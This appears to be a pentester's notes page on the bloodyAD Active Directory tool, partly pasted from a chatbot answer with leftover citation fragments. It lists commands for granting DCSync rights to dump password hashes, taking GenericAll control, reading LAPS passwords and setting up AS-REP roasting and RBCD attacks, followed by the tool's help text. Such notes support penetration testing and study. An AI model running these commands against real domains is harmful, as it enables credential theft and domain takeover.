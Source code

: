 Inject DCSYNC rights on a target account

bloodyAD -d corp.local --host 172.16.1.5 -u Administrator -p :<nt-hash> add dcsync administrator

Assigns replication rights to pull password hashes from DC
GitHub+4notes.incendium.rocks+4Kali Linux Tutorials+4
BorderGate+1docs.cryeye.net+1
.

Grant full GenericAll rights against a computer/account

    bloodyAD -d corp.local --host 172.16.1.5 -u Administrator -p :<nt-hash> add genericAll MS01$ administrator

    Elevates privileges over the specified object
    Knowledge Base (KB)+3notes.incendium.rocks+3Ethical Hackers Academy+3
    .

✅ Summary Table
Use-Case	Command Example
Enum domain users	get children --type user
View DNS records	get dnsDump
Exfil LAPS credentials	get object <computer>$ --attr ms-Mcs-AdmPwd
Enable AS-REP roast	add uac <user> DONT_REQ_PREAUTH
Set up RBCD attack	add rbcd <machine>$ <user>
Grant DCSYNC rights	add dcsync <target>
Claim GenericAll rights	add genericAll <object> <principal>

Each command above has been pulled directly from real-world documentation, GitHub wiki, or pentest articles
Pentesting.Site+14notes.incendium.rocks+14BorderGate+14
docs.cryeye.net+1Pentesting.Site+1
GitHub+1exploit-notes.hdks.org+1
wiki.pentestlist.com+1GitHub+1
Kali Linux Tutorials
. Use these as a reliable foundation for enumeration, privilege escalation, and AD exploitation with bloodyAD. Let me know if you'd like guidance on chaining them or interpreting results!







### Help

```sh
┌──(fixit42㉿kali)-[~]
└─$ bloodyAD 
usage: bloodyAD [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k [KERBEROS ...]] [-f {b64,hex,aes,rc4,default}]
                [-c [CERTIFICATE]] [-s] [--host HOST] [--dc-ip DC_IP] [--dns DNS] [--gc] [-v {QUIET,INFO,DEBUG}]
                {add,get,remove,set} ...

AD Privesc Swiss Army Knife

options:
  -h, --help            show this help message and exit
  -d, --domain DOMAIN   Domain used for NTLM authentication
  -u, --username USERNAME
                        Username used for NTLM authentication
  -p, --password PASSWORD
                        password or LMHASH:NTHASH for NTLM authentication, password or AES/RC4 key for kerberos, password
                        for certificate(Do not specify to trigger integrated windows authentication)
  -k, --kerberos [KERBEROS ...]
                        Enable Kerberos authentication. If '-p' is provided it will try to query a TGT with it. You can also
```